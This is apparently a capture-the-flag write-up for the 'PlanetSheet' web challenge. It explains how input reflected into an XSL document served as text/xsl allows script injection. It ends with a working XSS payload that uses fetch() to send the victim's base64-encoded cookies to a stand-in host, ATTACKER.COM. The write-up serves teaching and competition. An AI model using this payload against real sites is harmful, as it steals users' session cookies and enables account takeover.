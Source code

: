 # PlanetSheet

> Let's start by warming a little bit! I love planets and I hate sheets so I made this website to show my favorite planets. Flag is in admin cookie.\
> **Link:** http://20.233.9.240:1337

In this challenge our input is reflected into an [XSL document](https://developer.mozilla.org/en-US/docs/Web/XSLT). For instance:

```markup
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
  <html>
  <body>
    <h2>Planets</h2>
    <p>
OUR INPUT    <xsl:for-each select="catalog/cd">
      <xsl:value-of select="title"/>
      <xsl:if test="position() < last()-1">
        <xsl:text>, </xsl:text>
      </xsl:if>
      <xsl:if test="position()=last()-1">
        <xsl:text>, and </xsl:text>
      </xsl:if>
      <xsl:if test="position()=last()">
        <xsl:text>!</xsl:text>
      </xsl:if>
    </xsl:for-each>
    </p>
  </body>
  </html>
</xsl:template>

</xsl:stylesheet>
```

When rendered in the browser, this yields an error.

![](<../../.gitbook/assets/Screenshot 2022-04-11 at 11.59.45 AM.png>)

Since the `Content-Type` is `text/xsl`, we can use `<x:script>` to perform XSS ([source](https://github.com/BlackFan/content-type-research/blob/master/XSS.md)).

The final payload was

```xml
<x:script xmlns:x="http://www.w3.org/1999/xhtml" nonce="Y8Ret8N5CPXrSG">fetch(`http://ATTACKER.COM/${btoa(document.cookie)}`)</x:script>
```
